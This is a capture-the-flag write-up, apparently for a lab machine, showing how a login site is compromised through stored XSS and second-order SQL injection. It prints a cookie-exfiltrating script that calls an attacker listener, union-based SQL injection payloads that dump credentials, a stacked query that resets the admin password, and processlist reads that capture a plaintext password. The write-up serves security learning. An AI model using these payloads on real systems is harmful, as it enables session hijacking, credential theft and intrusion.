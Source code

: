 This is a machine where you discover a vulnerability, and it turns out that this vulnerability is not what you are searching for.

If you are an impatient person, then this room is not for you, as the machine has been set up to be extremely slow.

# Enumeration

Firstly, I ran nmap to discover the different ports available:

`nmap -sC -sV -v -p- -oN ports.txt 10.10.164.104`

![](./assets/ports.png)

There were only two ports open. I continued the enumeration on the HTTP server but there weren't any endpoints that stood out. So let's take a look at the web page : there was a register form and a login form.

![](./assets/main.png)

I registered with the following credentials `test:test`

![](./assets/register.png)

![](./assets/connected_page.png)

After logging in, there was a page that displayed the last connection times of the admin user and the account you are connected with.
The admin seemed to connect every minute, so it looks like an XSS scenario. Let's see where the entry point may be. The username of the account is reflected on the page, and after repeating the previous step with `<script>alert(1)</script>` as my username, I found an XSS:

![](./assets/test_xss.png)

# Exploit the XSS

We saw from the Nmap scan that the cookie `httponly` flag is not set, meaning it is possible to retrieve it with JavaScript.
Consequently, I decided to start a Python HTTP server in order to retrieve the cookie content.

`python3 -m http.server 8000`

Then a javascript payload was needed. As my username, I entered `<script>fetch("http://MY_IP:8000/?c="+encodeURIComponent(btoa(document.cookie)));</script>` and waited for the admin to show up.

Well, this didn't go as planned.

![](./assets/sqli_found.png)

# SQLI or XSS ?

Since I had gotten no response from the admin, I supposed it was more likely to exploit the second-order SQLi instead of the XSS.

## SQLI Payloads

Below, I tried to dump the different tables available.

### Table names

`" union select 'NULL', table_name from information_schema.tables -- -`

![](./assets/tables_names.png)

There was 2 tables available, `users` and `logins`. I first wanted to get the content of users.

### Users table

`" union select 'NULL', column_name from information_schema.columns where table_name='users' -- -`

![](./assets/users_table.png)

```" union select 'NULL', CONCAT(username, ' ', password, ' ', `group`) from users -- -```

![](./assets/creds.png)

Is it the password ? Nope ! Is it a hash then ? Doesn't seem so. https://hashes.com/en/tools/hash_identifier

![](./assets/hash_type_error.png)

 A rabbit hole ? Maybe.

### Logins Table

What do we have on `logins` : 

`" union select 'NULL', column_name from information_schema.columns where table_name='logins' -- -`

![](./assets/logins_column.png)

`" union select 'NULL', CONCAT(username, ' ', login_time) from logins -- -`

![](./assets/logins_content.png)

Well, at least we have confirmation that the admin user may exist. What can be done then ?

I said earlier that the password doesn't contain hashes. Well, I must be wrong. Remember that we created the test user with `test` as the password, which gave the result `098f6bcd462`. The question is: What kind of hash is that?

From the site https://www.dcode.fr/hash-identifier, Their guess that these hashes are cisco type 7.

![](./assets/dcode.png)

However, after trying a few tools from the internet, I didn't manage to crack any password and the result for `test` using the cisco type 7 algorithm is completely different. Did I miss something ?

Let's come back to the hashes, cisco type 7 as database password hashes doesn't make any sense. Is the result cropped ?

```" union select 'NULL', LENGTH(CONCAT(username, ':', password, ':', `group`)) AS concatenated_length from users -- -```

![](./assets/length.png)

A length of 44 for the admin line but we only got a line of 16 characters. Well, thinking about it, the second parameter was for last_login column name which is limited to 16 chars, meaning the backend is only returning the 16 first characters of the result.

So I needed to find a way to retrieve the whole content while being limited to 16 characters.

```" union select username, password from users where username='admin' union select username, substring(password, 17, 16) from users where username='admin' union select username, substring(password, 33, 16) from users where username='admin'-- -```

![](./assets/admin_hash.png)

Is this the admin hash? It is, but I didn't manage to crack it. As for the other hashes, they were crackable but not useful.

## Stacked Query

What if I try to change the admin password ? This is what I did but it proved to be useless as you gain nothing by being admin inside the website.

```" union select '1', '22';  update users set password=md5('meow') where username='admin'; -- -```

![](./assets/admin_password_changed.png)

## Change of method

In order to get the flag, we need to get inside the machine and to do that... we need the password.
I remembered that the admin logs in every minute, meaning they are sending their credentials every minute. To check whether the creds are valid, an SQL query is performed. The idea is here: we need to retrieve this query.
There exists a table that returns current processed queries, named  `INFORMATION_SCHEMA.PROCESSLIST`.
This table contains the `INFO` column which is the queries being executed.
I could have written a Python script to log what was happening, but I got lazy, so I preferred to wait a minute before retrieving the query.

```" union select '1', info from information_schema.processlist -- -```

![](./assets/problem.png)

I forgot about this problem XD. I retrieved the length of the admin query which is 180 and asked chatgpt to write this one query: 

``

```" UNION SELECT '1', SUBSTRING(info, 1, 16) FROM information_schema.processlist UNION SELECT '2', SUBSTRING(info, 17, 16) FROM information_schema.processlist UNION SELECT '3', SUBSTRING(info, 33, 16) FROM information_schema.processlist UNION SELECT '4', SUBSTRING(info, 49, 16) FROM information_schema.processlist UNION SELECT '5', SUBSTRING(info, 65, 16) FROM information_schema.processlist UNION SELECT '6', SUBSTRING(info, 81, 16) FROM information_schema.processlist UNION SELECT '7', SUBSTRING(info, 97, 16) FROM information_schema.processlist UNION SELECT '8', SUBSTRING(info, 113, 16) FROM information_schema.processlist UNION SELECT '9', SUBSTRING(info, 129, 16) FROM information_schema.processlist UNION SELECT '10', SUBSTRING(info, 145, 16) FROM information_schema.processlist UNION SELECT '11', SUBSTRING(info, 161, 16) FROM information_schema.processlist; -- -```

![](./assets/unreadable.png)

The response is unreadable but not impossbile to read XD. Again asking chatgpt, the query was reconstructed :

```sql
SELECT * FROM us
WHERE ers = 'usern' 
  AND ame = 'admin' 
  AND password = MD5('REDACTED')
UNION ALL SELECT null, null, null, SLEEP(5)
LIMIT 1;
```

# The flag

Using this password, all I needed to do was to connect through ssh with the creds and retrieve the flag.

![](./assets/flag.png)